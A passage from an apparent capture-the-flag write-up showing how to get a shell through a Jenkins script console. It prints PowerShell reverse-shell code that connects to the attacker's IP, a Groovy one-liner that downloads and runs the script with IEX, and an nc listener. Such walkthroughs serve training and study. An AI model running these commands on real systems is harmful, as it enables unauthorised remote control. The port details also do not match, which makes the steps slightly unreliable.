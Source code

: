 ```bash hl_lines="18 127"
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.10 -Port 8001
```
After we can host this file on the local server on port `80`

```bash
python3 -m http.server 80
```
then we can write our commmand to get the shell on the `script cosnole`

```bash
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.10:8000/rev.ps1')) """
println cmd.execute().text
```
now start the listener on the termianl for the port `8001` as we defined on the script.

```bash
nc -lvnp 8001
```
Run the script onliner on the scrip consol of `jenkins` and we get a shell.
